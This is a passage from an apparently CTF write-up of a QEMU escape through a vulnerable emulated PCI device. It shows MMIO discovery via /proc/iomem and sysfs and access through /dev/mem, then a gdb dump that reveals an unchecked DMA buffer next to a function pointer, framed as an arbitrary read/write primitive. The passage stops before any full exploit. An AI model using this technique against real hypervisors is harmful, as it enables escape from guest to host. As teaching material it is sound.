{% highlight bash %}
# cat /proc/iomem
...
04000000-febfffff : PCI Bus 0000:00
  fd000000-fdffffff : 0000:00:02.0
  fea00000-feafffff : 0000:00:04.0 # << Device 04, MMIO fea00000, size 0x100000
  feb00000-feb3ffff : 0000:00:03.0
  feb40000-feb5ffff : 0000:00:03.0
...
{% endhighlight %}

{% highlight bash %}
# cat /sys/devices/pci0000\:00/0000\:00\:04.0/resource
0x00000000fea00000 0x00000000feafffff 0x0000000000040200 # << Also matches
0x0000000000000000 0x0000000000000000 0x0000000000000000
...
{% endhighlight %}

{% highlight bash %}
# ls -la /sys/devices/pci0000\:00/0000\:00\:04.0/
...
-r--r--r--    1 root     root          4096 Nov 23 19:24 resource
-rw-------    1 root     root       1048576 Nov 23 19:24 resource0 << Size matches
...
{% endhighlight %}

To interact with the mmio, we have 2 options (that I know of). Using the sysfs by mmap-ing the resource0 file like [pcimem](https://github.com/billfarrow/pcimem) does or we could use the `/dev/mem` device which represents the physical memory of the system. Since I've done it [before]({{site.url}}/exploitation/2018/05/17/BlizzardCTF-2017-Strng.html) with pcimem, this time I will use `/dev/mem`. `/dev/mem` addresses are interpreted as physical memory to access the mmio we need to open and mmap `/dev/mem` at offset `0xfea00000` and size `0x100000`.

## Exploitation

`cpu_physical_memory_rw(hwaddr addr, uint8_t *buf, int len, int is_write)` provides us with arbitrary read and write. Whenever the `is_write` parameter is set the function will write into the physical address (PA) `addr` from source virtual address (VA) `buf`. Whenever `is_write` is unset the functionality will be reversed and `buf` VA will be the destination with the PA `addr` as source. With no boundary checks of VA `buf` in `hitb_dma_timer` let's see what we can access.

{% highlight bash %}
gdb-peda$ p *(HitbState*)0x5555587575f0
$4 = {
  pdev = {
      ...
  },
  ...
  dma_buf = '\000' <repeats 4095 times>,
  enc = 0x5555557d7dd0 <hitb_enc>,
  dma_mask = 0xfffffff
}
gdb-peda$ x/1000gx (*(HitbState*)0x5555587575f0)->dma_buf
0x5555587581a8:	0x0000000000000000	0x0000000000000000
... 0x1000 bytes of dma_buf
0x5555587591a8:	0x00005555557d7dd0	0x000000000fffffff
0x5555587591b8:	0x0000000000000000	0x0000000000000000
0x5555587591c8:	0x0000000000000051	0x0000555558757380
0x5555587591d8:	0x00005555587575a0	0x0000000000000000
{% endhighlight %}

